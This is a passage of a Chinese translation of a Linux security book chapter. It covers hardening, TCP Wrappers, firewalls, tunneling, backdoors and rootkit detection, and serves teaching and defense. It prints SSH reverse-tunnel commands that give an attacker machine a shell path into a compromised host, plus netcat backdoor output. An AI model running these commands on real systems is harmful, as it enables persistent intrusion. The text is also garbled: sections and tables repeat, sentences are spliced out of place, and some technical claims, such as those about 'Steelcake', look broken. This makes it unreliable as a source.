

图 5-4 增强的传统拓扑

外硬内软。然而，在今天环境中，许多操作系统默认启用了许多服务，而不只是 Linux。尽管 Linux 也有其过过。默认安装（不包括补丁）某些服务极可能存在关键漏洞，导致系统开箱即用即可破解。虽然打补丁通常是好事，但在检测到下一个漏洞并使服务再次受到威胁只是时间问题。因此，如果不需要，请将其删除。

### 安全网络架构

无论何种攻击，最佳行动方案都是尽可能减少正在运行的服务。为了识别监听端口和可以禁用的运行进程，实用程序 `ps` 和 `netstat` 非常有用。请尝试以下示例。此操作将通过仅提供必要的访问来极大地提高安全性。

# 黑客攻防 Linux：Linux 安全秘密与解决方案

例如，许多服务和网络监听器在所有操作系统上默认启用，而不只是 Linux。然而，Linux 也有其过之处。默认安装（不包括补丁）某些服务极可能存在关键漏洞，导致系统开箱即用即可破解。虽然打补丁通常是好事，但在检测到下一个漏洞并使服务再次受到威胁只是时间问题。因此，如果不需要，请将其删除。

为了减少攻击者可以利用的可能利用路径，最佳方法是关闭任何所有不必要的网络服务。这不仅涉及从 `init.d` 启动运行的守护进程，还涉及由于连接到 `inet` 或 `xinetd` 而产生的进程。



# 第5章：数据网络安全

## 攻破额外服务

| 指标 | 评分 |

| :--- | :--- |

| 流行度 | 8 |

| 简单性 | 5 |

| 影响 | 10 |

| 风险评分 | 8 |

弱的网络架构（包括内部和外部）不仅会导致外部主机被攻破后能够攻破更多主机，还会导致恶意内部人员进行不希望的内部窥探。创建安全的网络架构往往被低估和忽视。人们对边界防火墙过度关注，而对防火墙背后的内容关注不足。

## Linux 黑客攻防实战：Linux 安全秘密与解决方案

以下命令列出所有用户的所有进程：

```
mail:~ # ps aux
```

以下命令列出所有开放的端口及关联进程：

```
mail:~ # netstat -inp
```

一旦识别（并验证）了不需要的服务或开放的端口，可以通过删除 `initab` 中指向其启动脚本的链接，或者删除在 `inetd` 或 `xinetd` 中的条目来禁用它们。这可以防止它们在系统重启时被重新启动。

当通过了足够的时间来验证这些服务确实不再需要后，应该从源处卸载这些服务。删除它们各自的文件（如果是使用源代码安装的此类）或使用 `rpm -e package_name` 命令（如果是通过 `rpm` 命令安装的此类）。显然，这并不是唯一的两个选项，因为 Linux 发行版有各种包管理器以及多种添加和删除软件的方法。

### 缩小攻击面


在系统加固的过程中，你希望尽可能通过任何可能的手段减少攻击面。你可以通过移除或禁用服务，或者在无法移除或禁用服务的情况下拒绝其访问来实现。

TCP Wrappers 是一种网络访问控制措施，可以向特定服务授予或拒绝 TCP、UDP 以及某些 ICMP 连接。它通过绑定由 `inetd` 或 `xinetd` 运行的服务工作。

TCP Wrappers 可用于扩展 `inetd` 或 `xinetd` 的功能，为其在各自范围内的每个服务器守护进程提供支持和控制。这种支持可以包括日志、欢迎消息以及启动其他进程（以及其他内容），此外传统的防火墙控制。

本质上，TCP Wrappers 的工作原理类似于原始的防火墙，但具有一些增强，因为它针对相应的服务和服务控制管理器进行了调整。然而，需要说明的是，该工具并不是防火墙的替代品，而是深度防御体系中的另一个齿轮。

它通过使用两个配置文件（`hosts.allow` 和 `hosts.deny`）运行。`hosts.allow` 文件用于授予特定主机和服务的访问权限，而 `hosts.deny` 用于相反的操作。看以下示例：

```
sshd .hacker.com
```

```
twist /bin/echo "421 Bad hacker, go away!"
```

如果将上述示例放在 `hosts.deny` 文件中，则可以拒绝来自 hacker.com 域的 sshd 访问，并发送友好的消息“Bad hacker, go away!”

```
sshd : .goodguy.com \\
: twist /bin/echo "421 Welcome, Would you like some coffee?"
```

如果将上述示例放在 `host.allow` 文件中，则可以允许来自 goodguy.com 网站的访问，并显示一条更友好的消息。

### 应用防火墙
幸运的是，现代 Linux 发行版已包含并提供了许多应用防火墙。某些防火墙设计用于对远程鼠标和系统上的任何启用网络功能的应用程序提供访问控制。IPTables（或 NetFilter）可能是最常用的，且配置性最强的之一。它是大多数 Linux 发行版默认包含的，并提供了一套强大的功能集。它不仅提供状态检测流量检测，还通过许多可以自定义的扩展提供了增强，正如本章前面的“指纹混淆”部分所提到的。

其他防火墙嵌入在特定的应用程序中，并对用于通信的端口提供访问控制。ModSecurity 是嵌入式应用防火墙的完美示例。它是 Apache 中的一个模块，为 Web 流量提供多种功能，如入侵防御、事件关联、异常检测等。

关于任何各种应用防火墙，最好的建议可能是在合适的地方将其作为深度防御架构的一部分来使用。它们不应该是整个防御的全部基础，而应作为利用多层防御的全面安全设计的一部分。它们应该使用目前为止讨论的最小权限方法进行配置。具体来说，仅提供恰好所需的入站和出口访问。

不要停止于仅允许那些所需的端口。就像 TCP Wrappers 一样，尽可能使用应用防火墙来限制对开放端口的访问。例如，如果一个服务器位于互联网上，完全没有必要互联网上的每个人都有能力对其建立 SSH 连接。这会招来破解攻击，如果发现针对安装的 SSH 版本存在漏洞，情况可能更糟。

此外，内部服务器也应该受到应用防火墙的保护，你应该限制仅允许来自预期源的指定端口的访问。这种方法在某些环境中可能是过度，并可能导致大量的防火墙配置、设置和维护开销。然而，优点是使用应用防火墙的服务器遭受攻击的概率要小得多。因此，事件响应和可能的服务器重新部署时间将降至最低。

## Linux 黑客攻防实战：Linux 安全秘密与解决方案

遗憾的是，无论特定应用防火墙的类型或配置如何，它们仍然只是另一个工具。与其他类型的应用程序一样，应用防火墙最好保护在物理防火墙之后。毫无疑问，早晚会发现针对应用防火墙的某个关键漏洞，使其失效——或者允许对主机机器进行特权访问。

在选择防火墙选项时，确保它能帮助你应对经历过的各种攻击情况，并能够更改，例如针对服务的破解攻击、端口扫描、没有有效数据的多次连接尝试，或来自单一源的多次有效连接尝试。

### 端口敲门 (Port Knock)
端口敲门是指特定的应用程序对针对关闭端口的一系列连接尝试做出响应。此过程触发关闭端口接受通信。（注：原文此处存在大量重复 OCR 错误，翻译时已去重）。端口敲门是一个术语，指的是特定的应用程序对针对关闭端口的一系列连接尝试做出响应。此过程触发关闭端口接受通信。

取决于其使用方式，端口敲门可能是有益的或有害的。如果它是一种隐蔽机制，它可以是深度防御的重要部分。如果怀疑其存在，将非常难以检测。

两种可能的方法是：

- 第一种方法是监控日志或嗅探流量。一旦检测到，将显而易见。
- 第二种方法是监控应用程序通过防火墙或 UDP 传输。

`http://www.portocking.org` 网站是获取该主题更多信息的绝佳资源。他们还提供了 Perl 脚本。

## 第 5 章：数据网络安全

### 隐蔽通信与秘密管理

将安全游戏提升几个档次，如果系统被攻破或恶意方决定在秘密保护下运行，有许多方法可以实现。晦涩的网络协议规范和操作系统漏洞可以通过巧妙操纵其功能来掩盖活动。

### 绕过防火墙：基础隧道

| 流行度 | 7 |
| --- | --- |
| 简单性 | 8 |
| 影响 | 5 |
| 风险等级 | 7 |

为了对抗出口防火墙的有效性并绕过网络访问控制，创建了一些隧道方法可以将一种协议封装在另一种协议中。值得提到的三种主要类型以及一些常用工具示例：

- TCP 隧道：Stunnel, TCP Tunnel, Tor, SSH, WinTunnel, Sixtype, Zebee
- UDP 隧道：SSH, NetCallback, CIPE, Tunnel, Zebee
- ICMP 隧道：Ptunnel, Itun, Itun, Skeeve, icmpxt

这三种方法都可以用于将一种通信形式封装在另一种内部，如隐蔽文件传输、隐蔽通信、在线游戏等。它们通常用于在防火墙未被察觉的情况下通过受限的或被禁止的流量。

例如，如果由于特定的安全策略和立场阻止了在线游戏，但允许某些常见的 Web 协议（HTTP、HTTPS 和 FTP），则员工可以在外部设置一个隧道服务器，使用允许的端口并将其转发到游戏服务器的相应端口。

如果需要多个隧道服务器（例如在内部和外部各一个以执行双端口转换），可以将串联起来。理论上可以进行任意次数，但多次转换会引入额外的延迟。

# Hacking Exposed Linux：Linux 安全秘籍与解决方案

一个更酷的技巧是使用 ICMP 隧道来发送数据。令某些人惊讶的是，你可以获取一个文件并通过 ICMP 进行传输。它将文件数据分块并放入 ICMP 数据包的数据段中。由于大多数地方都允许外站 ICMP 流量，因此任何内容都可以发送。你真正的限制仅在于分块过程以及通过 ICMP 传输的速度，而这种速度非常慢。

#### 检测与防止隧道

理想情况下，一个全面的检测方案应该涉及几种检测方法，以增强其稳健性和可靠性。没有任何单一的检测方法能够持续成功地识别恶意或隐蔽通信。以下是三种检测方法：

- **基于特征的检测**：如果已知要查找的流量类型，基于特征的检测方法可能会很有用。许多入侵检测规则可以识别隧道上发生的任何不行为，前提是它未加密或具有特征。
- **基于协议的检测**：使用基于协议的检测方法意味着在网络通信流中搜索协议违规或异常。任何形式的基于协议检测方案都需要考虑不同操作系统和发行版之间的协议状态变化。
- **基于行为的检测**：基于行为的检测方法涉及为用户和机器创建配置，这些配置可以作为网络分析的参考和比较点。这些配置可以通过某种学习过程自动创建，也可以手动指定。

请记住，不同的检测方法可能会出于相似但略有不同的原因发现同一种通信。例如，ICMP 隧道可以被这三种检测方法检测到。基于特征的检测方法可以使用特征识别 ICMP 数据包中的数据，从而识别 ICMP 隧道。基于协议的检测方法可以通过观察有效负载中包含的数据来识别它。基于行为的检测方法将通过注意到 ICMP 数据部分包含不寻常的非获利数据来检测它。

要防止隧道，需要一个智能防火墙、代理或 IPS。能够成功使用的设备理想情况下必须与流量同路，并使用上述三种检测方法之一或多种。

## 第 5 章：数据网络安全

### 绕过防火墙：反向隧道

| 流行程度 | 10 |
| :--- | :--- |
| 简单性 | 5 |
| 影响 | 10 |
| 风险 rating | 8 |

反向隧道是绕过防火墙的另一种流行方法，但与早期发现的隧道不同，它是一种入站访问，允许攻击者连接到防火墙后的机器。它的工作原理是使用 SSH（或其他协议，通常是加密的）将 shell 隧道到远程机器。这种方法通常由那些成功攻破机器的攻击者采用，他们希望使用另一种更简单的方法来创建一个通往互联网上攻击者机器的反向隧道。

可以使用以下命令行来创建一个通往互联网上攻击者机器的反向隧道：

```bash
root@owned_machine# ssh -R 1337:localhost:22 root@attacker_machine
```

这这创建了一个从被控机器（owned_machine）到攻击者机器（attacker_machine）的连接，并导致 attacker_machine 在端口 1337 上监听。当攻击者从 attacker_machine 连接到 localhost 1337 时，实际上将打开到 owned_machine 的 SSH 连接。

这假设攻击者只有一步之遥，这是不太可能的。更现实的场景是攻击者将 attacker_machine 作为跳板，从互联网的其他地方进行连接。为了方便起，他们需要对 attacker_machine 进行一些额外配置。由于隧道端口只接受来自 localhost 的连接，因此在 attacker_machine 上创建另一个隧道，从其自身的某个接收外部连接的端口指向 1337。以下是一个示例：

```bash
root@attacker_machine# ssh -L 3137:localhost:1337 -f -N g root@attacker_machine
```

这在 1337 和 3137 之间创建了一个本地隧道。当攻击者从互联网的某处连接到 attacker_machine 上的 3137 时，他们实际上正在登录 owned_machine。

然而，需要注意的是，如果按照如下方式修改 sshd_config 文件，owned_machine 上的连接将迅速超时：

```text
TCPKeepAlive yes
ClientAliveInterval 30
ClientAliveCountMax 9999
```

> 尽管在加密不是问题的情况下，SSH 可能是创建反向隧道和输送 shell 最稳定的方法（在这种情况下可以使用 Cryptcat）。无论如何，它们可能是你工具箱中用于执行此功能的最好且最易备的两种工具。

### 检测与防止反向隧道

要检测和防止反向隧道，与检测隧道相同的原理均适用，但由于可能使用了加密，你的操作受到很大限制。请记住，反向隧道可以跨越任何端口，如果通过 80 端口发送，看起来就像加密的 Web 流量。

真正确保没有发生反向隧道的唯一方法是实现 SSL 代理，并不允许任何未通过 SSL 代理的加密流量流出网络。这样，所有加密流量要么被解密并供检查，要么在不是合规 SSL 流量的情况下被拦截。

### 绕过防火墙：高级隧道

| 流行程度: | 7 |
| :--- | :--- |
| 简单性: | 8 |
| 影响: | 5 |
| 风险 rating: | 7 |

TCP/IP 协议中有一个鲜为人知的规范，它似乎几乎是为了允许通过防火墙进行后门访问。即使没有开放端口，端口地址转换规则也可以允许任何流量。基于协议的检测方法可以通过观察有效负载中包含的数据来识别它。基于行为的检测方法将通过注意到 ICMP 数据部分包含不寻常的非获利数据来检测它。

基于特征的检测方法可以使用特征识别 ICMP 数据包中的数据，从而识别 ICMP 隧道。

基于协议的检测方法可以通过观察有效负载中包含的数据来识别它。

这种方法（Steelcake）对于 TCP/IP 是非常安全的，即使防火墙规则配置为“拒绝所有”。

如此，Steelcake (http://www.steelcake.com) 利用了这种隐蔽规范。此外，它比 TCP/IP 快 30%-40%，并且包含了身份验证和加密。总之，它结合了安全、隐蔽和速度。

### 后门

| 流行程度 | 10 |
| :--- | :--- |
| 简单性 | 5 |
| 影响 | 10 |
| 风险 rating | 8 |

没有什么比设系统中存在后门这种想法更令管理员感到恐惧了。后门可能会造成巨大的破坏，特别是在涉及监管合规性的情况下。后门通常被认为是攻击者在攻破系统后留下的工具。

### 检测与缓解后门

检测后门的第一步是确定哪些进程应该运行，哪些端口应该在你的系统上监听。这可以从黄金镜像中获取。拥有这些信息后，将数据与 `netstat` 和 `lsof` 的输出进行比较。

如果你怀疑存在后门，请对所有进入和离开相应系统的数据进行捕获。这将有助于识别系统活动，并可能协助确定后门的存在及其使用方式。

可以使用以下命令列出系统上的开放端口，并将其与对应的 PID 匹配。范围仅限于安装的后门；在这种情况下，是 netcat。

对于 netstat：

```bash
mail:- # netstat -anp|grep 1337
tcp:      0 0 0.0.0.0:1337      0.0.0.0:*      LISTEN      4813/netcat
```

对于 lsof：

```bash
mail:- # lsof -i -P |grep netcat
netcat  4813  root      3u IPv4 87759610      TCP **:1337 (LISTEN)
```

## 攻破 Linux：Linux 安全秘密与解决方案

netcat 示例非常容易检测。几乎当 netcat 在监听某个端口时，它都是不妥的。通常情况下，后门的检测要困难得多，特别是当你没有关于系统上应该运行、监听和加载哪些内容的充分文档时。

如果你没有关于系统上应该运行哪些程序的度量（metrics），你将需要一种更高强度的后门检测方法。除非后门像 rootkit（根内核程序）一样被隐藏，否则它们绝对是可以被检测到的。根据方法论，你可能需要花费大量时间来弄它们是如何运作的。如果在系统中检测到后门，请完成整个文件完整性检查过程，以确定哪些文件与后门相关（包括用于启动其或使其监听端口的文件）。幸运的是，有一些工具和方法可以帮助你完成这一过程。

理想的情况是，系统管理员拥有完整的金牌镜像基准（gold image baseline）以及关于系统处于原始状态的配置文档。以此为起点，他们可以轻松识别出系统发生了哪些变化，并从那时开始调查。

如果没有基准镜像，第一步是识别已知的良好和坏文件（可能通过 NSRL 或位哈希值集）。这将限制需要分析的文件范围，但与从全面的基准开始相比，需要额外大量工作。

一旦你获取了关于后门的信息（例如监听的端口），请记录每个伪迹，并将其作为获取更多信息的工具。例如，如果后门监听端口 1337，你可以识别出与该端口相关的进程，如上一个示例中使用 `netstat` 和 `lsof` 所示。此外，一旦识别了进程，请顺着父子进程之间的链以及关联的用户进行追踪，直到你能够确定事件的根源（用户、进程、攻击向量、二进制文件等）。

一旦你知道了绑定到端口的进程名称，你可以使用不带任何标志的 `lsof` 来查找该特定进程拥有的文件。在后门还执行某种日志记录的情况下（例如日志记录器的情况），这可能特别有帮助。

接下来，你可能可以通过对 `grep` 搜索任何包含 1337 或其他可识别字符串的文件，来定位后门的配置文件。一旦你找到了后门的一个文件，很可能会在相同位置找到其余的文件。

在这一工作中使用取证工具可能特别有帮助，因为这些工具包含了先进的搜索能力，可以简化并加速搜索。在取证工具的帮助下手动执行 `grep` 搜索并组织结果是非常耗人力的。

对已知与后门相关的二进制文件执行 `strings` 操作也可以产生有价值的数据。这些序列通常会显示出远程攻击者的 IP 地址、攻击者的炫耀信息、可能的配置选项、依赖文件信息等。大量的有用数据是以 ASCII 格式编写并包含在二进制文件中，但大部分可能纯文本。

## 第五章：网络安全

要找到与后门相关的依赖，可以考虑使用 `ldd` 来确定它使用的任何库。如果某些库在安装后门时被修改过，这将特别有用。

当然，使用像 `strace` 这样的单一工具就可以揭示关于后门如何运作大部分数据。这无疑会让你知道比你需要的更多的应用程序功能信息，但随后你可以使用这些信息来确定如何更好地使用、修改或禁用它。

### Rootkits

| 流行程度 | 9 |
| :--- | :--- |
| 简单性 | 9 |
| 影响 | 10 |
| 风险评分 | 9 |

也许比后门更糟糕的只有隐藏的后门。多年来，UNIX 系统的恶意应用程序一直在演变。Rootkits 是各种恶意应用程序的高级编译，并将它们许多最实用的功能组合成整洁的包或工具箱。

Rootkit 实际上是对这种软件包的一个非常有描述性的名称。它帮助攻击者维持 root 权限。Rootkits 起于 UNIX 系统，并迅速移植到其他 nix 变体。然后，rootkits 变得无处不在，并为其他类型的系统（如 Windows）创建。

Linux rootkits 现在可以通过多种方式实现，从修改二进制文件和库到拦截调用安装内核模块。检测它们需要对它们的运作方式有深入的理解以及良好的检测方法论。掌握了这些知识，你就知道在哪里以及如何寻找。

根据 rootkit 的类型和它采用的隐藏方法，检测和缓解可以包含多种技能组合，包括高级系统管理、计算机取证、计算机编程和反向工程。这绝对不是一项适合心轻松或容易气馁的人的任务。

## 文件替换 Rootkits（用户模式）


早期的 Linux rootkits 主要由一组修改过的、带有后门的系统二进制文件组成，这些文件可以部署到受攻击的系统上。它们被修改为忽略攻击者的存在以及他们使用的文件、文件夹、进程和端口。它们通常包含一个后门，以便在原始攻击向量不再可用时，允许攻击者轻松重新访问系统。这些 rootkits 被称为用户模式或用户态（user-land）rootkits。

## 攻破 Linux：Linux 安全秘密与解决方案

Linux 用户模式 rootkit 的一个很好的例子是 Linux Rootkit 5 (`LRK5`)。被植木马化版本替换的文件包括：

- `chfn`
- `chsh`
- `crontab`
- `du`
- `find`
- `ifconfig`
- `inetd`
- `killall`
- `login`
- `ls`
- `netstat`
- `passwd`
- `pidof`
- `ps`
- `rshd`
- `sshd`
- `su`
- `syslogd`
- `tcpd`
- `top`

除了这些文件外，`LRK5` 还带有几个其他文件，它们协助上述操作。

## 系统调用钩/封装 Rootkits（内核模式）

系统调用钩（Syscall Hooking）是一种稍微聪明的用户模式 rootkit，它修改了信号的处理。这种方法利用了应用程序的行为可以通过更改进程采取的默认操作来改变的事事实。有很多方法可以做到，但它们都有相同的结果：

一种较新的方法在“Pluff”的一份白皮书中详细介绍（http://www.s21sec.com/linuxhacking）。方法涉及在 `glibc` 中放置钩子（作为拦截系统调用的手段）来修改信号的处理

## 第五章：网络安全

用汇编语言编写意味着它尽可能小且快速。该代码需要具备以下功能：

- 利用 Linux 上的 `ptrace` 接口并将自身“注入”目标进程
- 避免 `ASLR` 或类似的机制
- 访问反汇编引擎
- 执行符号解析
- 实现符号热补丁程序
- 能够分发系统调用请求的 `sigtrap` 处理器
- 崩溃错误处理

这种方法（由“Pluff”详细介绍）相当新，且概念证明（POC）才出来几个月（截至本文编写）。公开领域很少有 rootkit 利用它，但在解决掉 POC 的 bug 后，预计未来会看到更多。

然而，其他形式的系统调用钩已经存在了，有很多加载内核模块的示例可以更改 Linux 内核处理系统调用的方式。加载内核模块在 Linux 中并不罕见，它们为安装在系统上的各种设备提供了大部分驱动功能。每当安装新硬件时，Linux 都会从内核本身（如果内核有）加载特定硬件的内核模块，或者用户使用 `insmod` 或某些配置文件强制加载它。只要为普通设备（如 SCSI 卡或网络适配器）加载的模块是可靠的，就可以。如果从互联网上的垃圾网站下载驱动，可能会出现意想不到的问题。

- `Adore` 一个基于命令的加载内核模块 rootkit，支持 Linux 内核 2.2、2.4 和 2.6，提供以下功能：
  - 隐藏文件
  - 根据请求执行进程
  - 隐藏 PID
  - 永久隐藏 PID
  - 隐藏 Adore 模块
- 内核入侵系统 (`KIS`) 一种非常漂亮的加载内核模块 rootkit，提供了 `Adore` 的所有功能，但通过非常复杂的 GUI 运行并带有内置的管理功能。
- `SucKIT` 一个功能完全且不需要加载内核模块支持的 rootkit。它通过 `/dev/kmem` 加载并能够隐藏

# Hacking Exposed Linux：Linux 安全机密与解决方案

进程、文件和连接。它还包括防火墙绕过和反连接（connect-back）功能。

## Rootkit 检测与缓解技术

检测和缓解 rootkit 取决于它们的工作原理、核实涉及哪些文件，并确定如何删除这些文件。这可能是一个耗费时间的过程。但是，如果你采用正确的方法，可以某种程度上简化这一过程。是在入侵发生之前使用正确的方法，而不是在之后。如果结果仅基于入侵后的分析，那么它们是不可信的。

挖出 rootkit 的最佳方法是深入其内部。如果 rootkit 位于分析工具之下，它将误导工具并提供不完整或不准确的信息。通过使用先进的事件响应和取证方法进入其内部，可以更清楚地观察系统正在发生什么。无论 rootkit 是什么种类型，所有 rootkit 都有文件并留下某种可检测的证据。需要做的只是找到这个 rootkit。

为了确保正确检测所有被攻破或修改的文件，请从第 4 章讨论的黄金镜像基准（gold image baseline）开始，并将基准与当前系统状态进行比较。一个良好的基准由系统在清洁状态下的准确描述组成（在放置机器之前或在最后对机器应用最新状态的补丁之后创建）。各种主机完整性软件程序对此非常有效，而几个取证程序的效果更好。

使用计算机取证程序提前构建哈希值的用处在实际事件发生时就会体现出来。在调查环境中可以使用响应事件的一切。计算机取证程序（特别是企业级计算机取证程序）还包含了增强的系统分析能力，并具有文件查看、搜索和分析工具，帮助在——在活动系统中。

在使用这些应用程序时，你本质上是在寻找系统的任何可疑更改。这些更改可能是新模块、未经授权的进程、修改的系统文件等。系统文件更改可以通过多种方式识别，包括哈希值差异、权限修改和/或各种标志位，例如不可变文件（immutable file）。

## 准备工具箱

为了准备好响应 rootkit 感染，你需要几种物品。不同的 rootkit 需要不同的响应技术，并配备不同的响应工具。以下是每个工具箱中应包含的一些标准：

- 静态编译的二进制文件
- 数据包捕获软件
- 端口扫描软件
- 事件响应/取证启动盘
- 企业级取证软件
- Rootkit 检测软件

显然，并不是所有物品都是必需，但它们都将有所帮助。之前指定的黄金镜像基准的所有数据也应该包含在工具箱中。提前确保黄金镜像数据经过维护、未被攻破，并包含系统所有的最新数据。

最困难的部分是拥有当前的黄金镜像基准。维护这些基准通常需要投入大量时间，并需要相应金额的资金来确保其实现。如果没有当前的镜像，那么准备就太晚了。此时，你可能必须追踪 rootkit，你可能需要依赖各种下载的 rootkit 检测工具之一。然而，这些工具会有局限性。

### 静态编译的二进制文件

由于用户态的 Linux rootkit 通过某种文件替换或库修改运行，因此在 CD-ROM 上包含一组预编译的二进制文件是一个非常好的主意。拥有这些文件将帮助你从受感染的活动系统中收集信息。

并不总是建议拔掉感染系统的电源。然而，有时你需要在关闭系统进行进一步调查之前，从系统中收集易失性数据（volatile data）。如果系统存在某种文件替换，任何原生实用程序或依赖于系统库的程序的输出都是不可信的。

拥有静态编译的二进制文件允许从被用户态 rootkit 攻破的机器上成功且准确地提取数据。表 5-2 列出了完备工具箱中的静态编译二进制文件。根据情况，你可能需要更多。

### 数据包捕获软件

为了获取更多关于被攻破机器的网络活动信息，在调查的最开始对机器活动启动数据包捕获可能会大有启发。简单的 `TCPdump` 数据包捕获就足够了，并且可以导入几乎所有的流量分析工具中。评估流量是否加密，可以获取有关流量双方的信息，以及在连接期间可能发生了什么。

此外，执行数据包捕获可能允许你看到或重构在非 root 系统 `netstat` 中无法良好显示的流量，例如 `ICMP` 隧道。虽然在大多数入侵中并不使用，但 `ICMP` 隧道经常被用于绕过防火墙，并且很难检测。

无论如何，捕获进或出机器的网络流量都可以为下一步查找哪里提供方向。这些流量可能会追溯攻击者或网络上的其他被攻破的系统。

| arp | dd | free | logname | pgrep | sdiff | sum | unexpand |
| :--- | :--- | :--- | :--- | :--- | :--- | :--- | :--- |
| basename | df | | ls | pinky | sed | sync | uniq |
| bash | diff | gcc | md5sum | pkill | seq | sysctl | unlink |
| cat | diff3 | | ginstall | mkdir | plipconfig | setuid | t | uptime |
| chgrp | dir | grep | mkfile | pmap | shalsum | tac | users |
| chmod | dicolors | groups | mknod | prired | skill | tar | vdir |
| chown | dirname | head | mv | |env | shred | tail | v |
| chroot | ded | hosted | nameif | printf | slabtop | tee | vmstat |
| cksum | echo | | netcat | ps | |attack | load | w |
| cmp | env | | netstat | ptx | sleep | top |
| cut | expand | | join | rar | sort | true |
| cp | false | | less | od | rm | whoami |
| date | fmt | | link | rmdir | tty |
| dcgen | fold | | ln | path | route | su | uname |

表 5-2 完备工具箱中的静态编译二进制文件。根据情况，你可能需要更多。

## 第5 章：数据安全

虽然如果有足够的时间，你可以定位并修复系统的修改，但通过提前准备将极大简化这一过程。黄金镜像基准中包含的关于物理文件和配置、用户、用户组等的所有非易失性数据（nonvolatile data），在进行分析时将证明非常有用。

通过这种过程而不是重新映像系统是有几个原因：

- 第一，修复系统比从备份恢复要好。这在某些情况下可以避免大量数据丢失。
- 第二，备份镜像通常很旧，在镜像创建到事件发生之间发生了巨大的系统变化。
- 第三，备份镜像可能不存在，手动恢复系统是唯一的希望。不幸的是，这是使用此类软件的主要原因之一。

显然，并不是所有物品都是必需，但它们都将有所帮助。之前指定的黄金镜像基准的所有数据也应该包含在工具箱中。最困难的部分是拥有当前的黄金镜像基准。维护这些基准通常需要投入大量时间，并需要相应金额的资金来确保其实现。如果没有当前的镜像，那么准备就太晚了。此时，你可能必须追踪 rootkit，你可能需要依赖各种下载的 rootkit 检测工具之一。然而，这些工具会有局限性。

### 静态编译的二进制文件

由于用户态的 Linux rootkit 通过某种文件替换或库修改运行，因此在 CD-ROM 上包含一组预编译的二进制文件是一个非常好的主意。拥有这些文件将帮助你从受感染的活动系统中收集信息。并不总是建议拔掉感染系统的电源。然而，有时你需要在关闭系统进行进一步调查之前，从系统中收集易失性数据。如果系统存在某种文件替换，任何原生实用程序或依赖于系统库的程序输出都是不可信的。

拥有静态编译的二进制文件允许从被用户态 rootkit 攻破的机器上成功且准确地提取数据。表 5-2 列出了完备工具箱中的静态编译二进制文件。根据情况，你可能需要更多。

### 数据包捕获软件

为了获取更多关于被攻破机器的网络活动信息，在调查的最开始对机器活动启动数据包捕获可能会大有启发。简单的 `TCPdump` 数据包捕获就足够了，并且可以导入几乎所有的流量分析工具中。评估流量是否加密，可以获取有关流量双方的信息，以及在连接期间可能发生了什么。

此外，执行数据包捕获可能允许你看到或重构在非 root 系统 `netstat` 中无法良好显示的流量，例如 `ICMP` 隧道。虽然在大多数入侵中并不使用，但 `ICMP` 隧道经常被用于绕过防火墙，并且很难检测。

无论如何，捕获进或出机器的网络流量可以为下一步查找哪里提供方向。这些流量可能会追溯攻击者或网络上的其他被攻破的系统。

| arp | dd | free | logname | pgrep | sdiff | sum | unexpand |
| :--- | :--- | :--- | :--- | :--- | :--- | :--- | :--- |
| basename | df | | ls | pinky | sed | sync | uniq |
| bash | diff | gcc | md5sum | pkill | seq | sysctl | unlink |
| cat | diff3 | | ginstall | mkdir | plipconfig | setuid | t | uptime |
| chgrp | dir | grep | mkfile | pmap | shalsum | tac | users |
| chmod | dicolors | groups | mknod | prired | skill | tar | vdir |
| chown | dirname | head | mv | |env | shred | tail | v |
| chroot | ded | hosted | nameif | printf | slabtop | tee | vmstat |
| cksum | echo | | netcat | ps | |attack | load | w |
| cmp | env | | netstat | ptx | sleep | top |
| cut | expand | | join | rar | sort | true |
| cp | false | | less | od | rm | whoami |
| date | fmt | | link | rmdir | tty |
| dcgen | fold | | ln | path | route | su | uname |

表 5-2 完备工具箱中的静态编译二进制文件。根据情况，你可能需要更多。

### 事件响应/取证启动盘

可用大量用于事件响应和计算机取证启动盘的工具和选项，其中许多是免费的且为分析 Linux 系统设计的。`Helix` 是提供这些功能的启动盘的一个非常强大的示例。

一旦你决定关闭机器，可以使用可启动的 Linux IR 或取证发行版来深入研究系统，并确定发生的攻破程度。这些工具可以确定哪些文件被更改了，并为纠正问题提供方法。

# 攻防 Linux：Linux 安全秘密与解决方案

- 第四，也是目前 IR（事件响应）和取证软件最可能常见的用途，是了解发生了什么、如何缓解这些问题以及如何防止。你可能还会好奇于发现任何留下的酷工具，用以增强你的工具箱。

### 企业级取证软件

